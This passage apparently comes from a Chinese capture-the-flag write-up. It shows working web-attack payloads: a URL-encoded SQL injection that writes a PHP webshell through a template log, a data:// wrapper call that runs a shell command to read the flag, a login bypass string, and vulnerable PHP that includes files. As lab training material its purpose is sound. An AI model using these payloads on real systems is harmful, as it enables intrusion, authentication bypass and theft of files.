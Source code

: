 利用poc构造语句登录：

```
/index.php?action=check

username=1' union select "1%3B%0A%24a%20%3D%20%3C%3C%3Chhh%0A%3C%3Fphp%20inclu%0Ahhh%3B%0A%24b%20%3D%20%3C%3C%3Chhh%0Ade%20%24%0Ahhh%3B%0A%24c%20%3D%20%3C%3C%3Chhh%0A_POS%0Ahhh%3B%0A%24d%20%3D%20%3C%3C%3Chhh%0AT%7B1%7D%3F%3E%0Ahhh%3B%0A%24e%20%3D%20%3C%3C%3Chhh%0Aaaa.php%0Ahhh%3B%0A%24f%20%3D%20clone%20%24db%3B%0A%24f-%3Elog-%3Elog%3D%24e%3B%0A%24f-%3Elog-%3Econtent%3D%24a.%24b.%24c.%24d%3B",2,3;#&password=1
```

再新增模板

![image-20211122223626782](https://i.loli.net/2021/11/22/zO2D9niNSbc58M1.png)

触发渲染，把一句话木马写入

```
/index.php?action=view&page=aaa
```

然后访问a.php，利用data伪协议rce

```
1=data://text/plain,<?php system("cat /f*");?>
```







## 513-模板渲染-日志文件包含

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```



```php
# render/render_class.php
	public static function checkFoot($templateContent){
		if ( stripos($templateContent, '{{cnzz}}')) {
			$config = unserialize(file_get_contents(__DIR__.'/../config/settings'));
			$foot = $config['cnzz'];
			if(is_file($foot)){
				$foot=file_get_contents($foot);
				include($foot);
			}
			
		}
```

